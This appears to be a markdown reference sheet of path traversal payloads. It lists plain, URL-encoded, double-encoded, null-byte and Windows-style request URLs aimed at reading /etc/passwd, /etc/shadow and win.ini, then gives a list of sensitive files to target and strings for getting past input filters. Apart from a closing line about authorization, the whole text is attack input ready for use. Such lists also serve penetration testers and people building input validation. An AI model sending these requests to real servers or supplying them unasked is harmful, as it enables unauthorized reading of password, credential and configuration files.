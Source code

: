 # Path Traversal Payload Examples

Path traversal (also known as directory traversal) is a vulnerability that allows attackers to access files and directories outside of the web root folder. Below are some common path traversal payloads.

## Basic Payloads

```
http://example.com/getFile=../../../etc/passwd
http://example.com/load?file=../../../../etc/shadow
http://example.com/download?filename=....//....//....//etc/passwd
```

## Encoded Payloads

```
http://example.com/getFile=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
http://example.com/load?file=..%252F..%252F..%252Fetc%252Fpasswd
http://example.com/download?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

## Null Byte Injection

```
http://example.com/getFile=../../../etc/passwd%00
http://example.com/load?file=../../../../etc/shadow%00.jpg
```

## Windows Path Traversal

```
http://example.com/getFile=..\..\..\windows\win.ini
http://example.com/load?file=..%5c..%5c..%5cwindows%5cwin.ini
```

## Interesting Files to Target

### Linux/Unix
```
/etc/passwd
/etc/shadow
/etc/hosts
/etc/group
/proc/self/environ
/var/log/apache2/access.log
```

### Windows
```
\windows\win.ini
\windows\system32\drivers\etc\hosts
\boot.ini
\autoexec.bat
```

## Defense Bypass Techniques

```
....//
....\/
..../\
....\\
%2e%2e%2f
.%2e/
%2e%2e/
..%2f
%2e%2e%5c
```

## Note

Always ensure you have proper authorization before testing these payloads against any system. Unauthorized testing may be illegal.

